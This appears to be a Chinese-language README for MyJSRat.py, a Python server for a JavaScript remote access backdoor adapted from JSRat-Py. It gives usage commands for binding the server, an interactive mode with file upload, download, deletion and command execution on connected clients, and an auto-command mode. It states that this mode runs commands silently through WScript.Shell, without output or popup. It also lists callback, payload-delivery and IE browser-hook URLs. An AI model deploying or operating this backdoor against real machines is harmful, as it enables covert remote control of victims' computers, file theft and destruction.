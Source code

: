 # MyJSRat.py
## 0x00 JSbackdoor
关于javascript backdoor 请查看：

[JavaScript Backdoor](http://drops.wooyun.org/tips/11764)

[JavaScript Phishing](http://drops.wooyun.org/tips/12386)

[JSRat.ps1](https://gist.github.com/subTee/f1603fa5c15d5f8825c0)

## 0x01 说明
研究JSbackdoor 之后想着写一个py版的，后来发现已经有小伙伴写过了，地址如下：[JSRat-Py](https://github.com/Hood3dRob1n/JSRat-Py)

测试使用的时候，为了更加方便，对上面的这个脚本进行了修改，添加了`-c` 参数可以实现在客户端连接之后自动执行命令。具体使用方式如下：
```
JSRat Server
By: Evi1cg

Usage: MyJSRat.py [options]

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -i IP, --ip=IP        IP to Bind Server to (i.e. 192.168.0.69)
  -p PORT, --port=PORT  Port to Run Server on
  -u URL, --url=URL     URL to Initiate Client Connection (default: /connect)
  -f, --find-ip         Display Current Internal and External IP Addresses
  -c CMD, --command=CMD
                        auto Send command to client (No interaction)
  -v                    Enable Verbose Output
```

-f 参数可获取内外网ip地址：

![Alt text](./1459259057997.png)

脚本修改分为两个模式，交互模式以及执行命令模式。
1. 交互模式命令如下：
```
 python MyJSRat.py -i 192.168.1.101 -p 8080
```
>-u 为可选参数，为回连url地址。

交互模式下可进行文件上传、下载、删除、命令执行等。

2. 执行命令模式命令如下：
```
python MyJSRat.py -i 192.168.1.101 -p 8080 -c "whoami"
```
>执行命令模式下，会在获得shell之后自动执行指定命令，使用了`new ActiveXObject("WScript.Shell").Run(command,0,true)`,执行无回显，无弹框。

交互界面如下：

![Alt text](./1459259883470.png)

命令发送：

![Alt text](./1459260010566.png)

## 0x02 URL 说明
* http://192.168.1.101:8080/connect 默认回连地址
* http://192.168.1.101:8080/wtf 访问此链接获取客户端执行代码
* http://192.168.1.101:8080/hook 浏览器hook链接，适用于某些版本的IE





